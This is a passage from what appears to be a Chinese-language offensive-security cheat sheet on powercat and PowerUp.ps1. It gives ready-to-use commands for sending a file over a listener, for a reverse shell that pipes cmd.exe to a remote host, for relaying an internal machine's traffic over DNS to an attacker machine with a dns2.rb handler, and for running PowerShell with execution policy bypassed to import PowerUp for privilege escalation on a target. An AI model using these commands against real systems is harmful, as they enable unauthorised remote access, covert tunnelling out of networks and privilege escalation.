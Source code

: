 ```powershell
powercat -l -p 8080 -of c:/test.txt -v
```

* `-of`：需要传输的文件



#### 4. powercat 实现转发

* 将内网机器给转法出来，从而让让我们可以更好访问



##### 被转发机器

```powershell
powercat -c IP(转发机器IP) -p 8080 -e cmd.exe -v
```





##### 转发机器

```powershell
powercat -l -v -p 8080 -r dns:IP(攻击机IP)::1.test
```





##### 攻击机

```bash
ruby dns2.rb 1.test -e open --no-cache
```



## powerup.ps1

* 寻找可能存在弱点的地方，从而帮助提权。

下载地址：https://github.com/Emperortino/PowerShell/





### 1. 导入

上传到目标后需要导入

```powershell
C:\Users\Fun\>powershell -exec bypass		//设置成 不会限制脚本执行：bypass

C:\Users\Fun\>cd ./desktop					//跳转到目标位置

C:\Users\Fun\Desktop> Import-Module .\PowerUp.ps1
```


